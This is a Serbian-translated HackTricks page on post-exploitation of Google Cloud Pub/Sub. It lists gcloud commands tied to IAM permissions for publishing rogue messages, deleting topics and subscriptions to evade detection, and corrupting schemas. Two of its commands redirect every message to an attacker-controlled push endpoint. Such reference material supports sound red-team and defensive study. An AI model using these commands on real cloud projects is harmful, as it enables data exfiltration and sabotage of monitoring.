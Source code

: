 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Za više informacija o Pub/Sub, proverite sledeću stranicu:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Objavite poruku u temi, korisno za **slanje neočekivanih podataka** i aktiviranje neočekivanih funkcionalnosti ili iskorišćavanje ranjivosti:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Koristan za sprečavanje pretplate da prima poruke, možda da bi se izbegla detekcija.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Koristan za sprečavanje pretplate da prima poruke, možda da bi se izbegla detekcija.\
Moguće je obrisati temu čak i sa pretplatama koje su joj pridružene.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Koristite ovu dozvolu da ažurirate neka podešavanja teme kako biste je ometali, kao što su `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dajte sebi dozvolu da izvršite bilo koji od prethodnih napada.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Preuzmite sve poruke na veb serveru:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Kreirajte pretplatu i koristite je za **povlačenje poruka**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Brisanje pretplate** može biti korisno za ometanje sistema za obradu logova ili nešto slično:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Koristite ovu dozvolu da ažurirate neka podešavanja tako da se poruke čuvaju na mestu kojem možete pristupiti (URL, Big Query tabela, Bucket) ili samo da ih ometate.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Dajte sebi dozvole potrebne za izvođenje bilo kojeg od prethodno komentarisane napade.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Napadnite šemu na temu tako da poruke ne ispunjavaju šemu i tako da tema bude poremećena.\
Ako nema šema, možda ćete morati da kreirate jednu.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Ovo može izgledati kao brisanje šeme, ali ćete moći da šaljete poruke koje ne ispunjavaju šemu. Međutim, pošto će šema biti obrisana, nijedna poruka zapravo neće ući u temu. Dakle, ovo je **BEZSMISLENO**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Dajte sebi dozvole potrebne za izvođenje bilo kojeg od prethodno komentarisane napade.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Ovo će kreirati snimak svih neACKovanih poruka i vratiti ih u pretplatu. Nije baš korisno za napadača, ali evo ga:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
